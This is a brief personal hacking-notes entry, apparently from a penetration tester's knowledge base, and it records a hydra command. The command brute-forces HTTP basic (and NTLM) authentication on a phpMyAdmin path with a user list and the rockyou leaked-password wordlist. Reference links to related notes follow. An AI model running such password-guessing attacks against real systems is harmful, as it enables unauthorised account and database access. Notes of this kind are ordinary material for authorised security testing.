 # hydra brute force HTTP basic authentication also works for NTLM
```bash
hydra $IP http-get -L users  -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt /phpmyadmin
```

# References
- [20221003150849](/zet/20221003150849/README.md) hydra brute force HTTP basic authentication
- ~/kb/hacking/commands/hydra-http-auth.md

Tags:
    #assorted
